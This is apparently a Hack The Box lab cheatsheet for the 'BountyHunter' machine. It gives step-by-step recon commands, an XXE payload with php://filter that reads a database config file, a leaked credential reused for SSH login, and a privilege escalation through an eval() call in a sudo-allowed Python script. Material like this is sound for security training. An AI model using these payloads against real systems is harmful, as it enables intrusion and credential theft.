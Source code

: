 # HTB: BountyHunter — Command Cheatsheet

## 📌 Box Info
- **Name:** BountyHunter
- **IP:** _Dynamic (HTB Hosted)_
- **OS:** [Linux](Linux)
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp <IP>
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts <IP>
```

---

## 🕵️ [Web Enumeration](HTTP)
```bash
# Add to /etc/hosts
<IP> bountyhunter.htb

# Fuzz VHosts
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://bountyhunter.htb -H "Host: FUZZ.bountyhunter.htb" --fs 194
```

### Identified:
- **www.bountyhunter.htb** (Default Page)
- **tracker_diRbPr00f314.php** (Found via Burp/Form Submission)

---

## 📂 XML/XXE Exploitation
### Decode Burp Request:
1. URL-decode `data`
2. Base64-decode result
3. XML structure remains

### Exploit XXE to Read Files
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
<bugreport>
  <title>test</title>
  <cwe>123</cwe>
  <cvss>5</cvss>
  <reward>&xxe;</reward>
</bugreport>
```

### Encode for Delivery:
- Base64 the above
- URL encode the Base64

### Submit via Burp:
```http
POST /tracker_diRbPr00f314.php
...
data=<encoded payload>
```

### Result:
```bash
# Decode base64 response to read db.php
cat result.b64 | base64 -d
```

### Extracted Password:
```bash
# dbpassword: m19RoAU0hP41A1sTsq6K
```

---

## 🔐 [Shell as Development](SSH)
```bash
ssh development@<IP>
# password: m19RoAU0hP41A1sTsq6K
```
```bash
cat ~/user.txt
```

---

## 🖕 Root Escalation
### Check sudo perms:
```bash
sudo -l
```
```bash
# Result:
(root) NOPASSWD: /opt/ticketValidator/ticketValidator.py
```

### Inspect Script:
```python
# dangerous line
validationNumber = eval(x.replace("**", ""))
```

### Bypass Ticket Format:
```bash
# Example ticket:
cat << EOF > /tmp/ticket
== Ticket ==
TicketCode: 18
**101+1
EOF
```

### Run Validator with Ticket:
```bash
sudo /opt/ticketValidator/ticketValidator.py /tmp/ticket
```

### Get Root Flag:
```bash
cat /root/root.txt
```

---

## 📚 Summary
- Web endpoint: `/tracker_diRbPr00f314.php`
- Encodings: URL, Base64
- Data format: XML
- Attack: XXE
- XXE Bypass with: PHP filters (`php://filter/...`)
- Priv Esc: Insecure use of `eval()` in sudo Python script

---

## 📚 Resources
- [SecJuice BountyHunter Walkthrough](https://www.secjuice.com/htb-bountyhunter-walkthrough/)
- [PayloadAllTheThings: XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

